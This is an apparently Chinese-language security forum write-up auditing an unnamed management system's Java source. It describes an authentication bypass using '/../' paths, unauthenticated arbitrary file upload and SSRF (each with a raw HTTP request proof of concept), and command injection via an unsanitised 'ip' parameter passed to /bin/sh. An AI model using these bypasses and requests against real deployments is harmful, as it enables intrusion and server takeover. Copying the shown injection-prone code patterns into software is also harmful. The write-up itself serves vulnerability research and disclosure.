# 某管理系统源代码审计-先知社区

> **来源**: https://xz.aliyun.com/news/19233  
> **文章ID**: 19233

---

## **免责声明**

请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。信息及工具收集于互联网，真实性及安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！

## **0x0****2****前言**

最近在做项目的时候，通过扫目录扫出了一套源码，然后进行简单的审计一番，如果有写的不太正确的还请师傅们多多指教。

​

资产不多



## **0x0****3****漏洞审计**

**1、****鉴权绕过分析**

AuthInterceptor鉴权分析

可以看到使用了request.getRequestURL().toString();去就获取我们的路径



35行代码看我们的url是否包含action中的内容，包含就true



action是由stringArray[n2]来的，stringArray是由opens来的



那这里便可以进行权限绕过使用/../进行绕过，即可访问，鉴权绕过

**2、前台任意文件上传**

### **（1）第一处**

在代码中可以看到414行获取文件名字，后续直接形成文件路径，上传路径固定为 /usr/web/resources/upload/，直接使用FileUtils.copyInputStreamToFile写入，这里没有校验文件后缀等



访问路由：/app/uploadFileApp.do

poc:

POST /app/uploadFileApp.do HTTP/1.1

Host: target.com

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

Content-Length: 323

​

------WebKitFormBoundary7MA4YWxkTrZu0gW

Content-Disposition: form-data; name="file"; filename="test.txt"

Content-Type: application/octet-stream

​

test

------WebKitFormBoundary7MA4YWxkTrZu0gW--

### **（2）第二处**

跟上述同理，可以看出也没做什么过滤

漏洞地址路由为：/manage/../vcsGroup/actionGroupAddFile.do



这套系统还有很多任意文件上传点，就不一一写了

​

**三、前台SSRF漏洞**

首先可以看到这里的url 参数是用户可控的，并且没有任何校验或限制，传到了downloadFormUrl方法处，直接用于发起 HTTP 请求







poc如下：

GET /sdk/../grid/actionDownloadFile.do?url=http://xxx.dnslog.cn&name=12121&length=2121212 HTTP/1.1

Host: target.com

Connection: keep-alive

sec-ch-ua-platform: "Windows"

​

此处也只列出一处。

**四、前台RCE漏洞**

这里分析代码可以看到接受一个type参数和IP参数，然后根据switch-case分支，这 里假如 type=0时就 进入 ping 逻辑，接着ping给到cmd，并传递到 MyThread方法



关键代码如下，追踪 MyThread方法

String ip = request.getParameter("ip");

String time = request.getParameter("time");

String cmd = "ping " + ip + " -i 1 -c " + time + " | awk ... > ...";

new MyThread(process, cmd, fileName).start();

​

接着会调用到`MyThread.run()` → `CMSTools.execCentosCmd(process, cmd, fileName)`



跟踪execCentosCmd方法，可以看到整条字符串交给/bin/sh -c 解析。



可以测试下：





同样port参数也存在rce，这边就不再写了。
